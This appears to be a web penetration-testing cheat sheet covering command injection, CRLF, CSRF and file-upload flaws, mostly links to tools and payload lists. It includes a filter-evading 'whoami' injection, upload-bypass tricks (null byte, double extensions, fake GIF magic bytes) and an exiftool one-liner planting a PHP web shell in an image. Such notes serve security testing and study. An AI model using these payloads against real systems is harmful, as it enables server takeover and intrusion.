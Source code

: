 
## Vulnerabilities 

### Command Injection 

**Bypass**

```
w\h\o\a\m\i
\w\h\o\a\m\i
```
```
'html', 'htm', 'js', 'jsb', 'mhtml', 'mht',
**'php', 'phtml', 'php3', 'php4', 'php5', 'phps',**
'shtml', 'jhtml', 'pl', 'py', 'cgi', 'sh', 'ksh', 'bsh', 'c', 'htaccess', 'htpasswd',
'exe', 'scr', 'dll', 'msi', 'vbs', 'bat', 'com', 'pif', 'cmd', 'vxd', 'cpl', 'empty'
```
**Tools**

- Commix - <https://github.com/commixproject/commix>
  - Usage examples: <https://github.com/commixproject/commix/wiki/Usage-Examples>

### CRLF

- <https://speakerdeck.com/shikarisenpai/crlf-and-openredirect-for-dummies?slide=28>

**Tools**

- CRLF-Injection-Scanner: <https://github.com/MichaelStott/CRLF-Injection-Scanner/blob/master/crlf_scan.py>
- CRLF - Auto CRLF Injector: <https://github.com/rudSarkar/crlf-injector>

**Payloads**

- <https://github.com/cujanovic/CRLF-Injection-Payloads/blob/master/CRLF-payloads.txt>
- <https://github.com/mubix/tools/blob/master/fuzzdb/attack-payloads/http-protocol/crlf-injection.fuzz.txt>

### CSRF

- Methodology: https://twitter.com/Alra3ees/status/1076021203117195265
- CSRF Cheatsheet: https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/

**Tools**

- XSRFProbe: <https://github.com/0xInfection/XSRFProbe>

### File Upload

**Bypass**

- Null Byte: `%00` to bypass file name restrictions (`wpes.php%00.png`)
- Suffix file name with `%` (`example.php%`)
- Double Extensions: `wpes.png.php` `valid.txt.php`
- Altering content type
- Magic number: (Example: gif: `GIF89a;`)
  - Put `GIF89a;`​ as the first line in the file and save the file with a ​ `.gif`​ extension
  - <https://blog.netspi.com/magic-bytes-identifying-common-file-formats-at-a-glance/>
- Code in image comment:
  - `exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg`
